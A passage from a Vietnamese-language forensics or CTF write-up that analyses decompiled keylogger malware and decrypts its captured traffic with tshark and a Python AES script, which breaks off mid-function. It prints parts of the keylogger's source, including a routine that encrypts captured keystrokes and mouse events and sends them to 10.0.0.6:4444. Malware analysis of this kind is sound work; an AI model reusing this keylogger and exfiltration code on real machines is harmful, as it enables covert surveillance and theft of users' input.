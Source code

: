     def run(self):
        self.send_data(self.system_information().encode("utf-8"))
        t1 = threading.Thread(target=(self.run_keyboard))
        t2 = threading.Thread(target=(self.run_mouse))
        t1.start()
        t2.start()
        t1.join()
        t2.join()


keylogger = KeyLogger(SEND_REPORT_EVERY)
keylogger.run()

# okay decompiling keylogger.pyc
```
- Nhìn vào src của nó ta thấy rằng nó lắng nghe bàn phím và chuột sau đó encrypt để gửi lên 10.0.0.6:4444
- Dữ liệu được encrypt bằng key được tải từ github, tuy nhiên khi mình truy cập thì không có cái key nào cả
- ![aa](image/19.png)
- Theo dõi lịch sử commit của trang github này ta có thể lấy được key trước khi bị sửa
- ![image](image/20.png)
- Key là `9cbf8152dee6895d65a959560502fc73`
- Bây giờ mình sẽ crawl dữ liệu từ wireshark về để biết hacker đã lấy cắp những gì.
- ![ơaa](image/21.png)
- Có 1 vài packet có len là 4 khi decrypt sẽ bị lỗi, mình xem lại src
```
    def send_data(self, message):
        cipher = AES.new(self.key, AES.MODE_CBC)
        ciphertext = cipher.encrypt(pad(message, AES.block_size))
        data = cipher.iv + ciphertext
        data_size = struct.pack("!I", len(data))
        self.s.sendall(data_size)
        self.s.sendall(data)
```
- Thấy rằng khi gửi data đầu tiên nó sẽ gửi size của data đó, sau đó mới gửi dữ liệu, nên ta sẽ chỉ lấy phần giữa các packet có len = 4 ra.
- Mình sẽ viết lệnh filter tất cả các dữ liệu sau đó sử lý bằng python
> tshark -r traffic.pcapng -Y "ip.dst==10.0.0.6  && tcp.port==4444" -Tfields -e data.data > data.txt
- Và đây là script xử lý 
```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii

def decrypt_aes(ciphertext, key, iv):
    key = key.encode('utf-8')  # Chuyển đổi khóa từ chuỗi sang byte
    cipher = AES.new(key, AES.MODE_CBC, iv)  # Tạo đối tượng AES ở chế độ CBC
    
    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)
    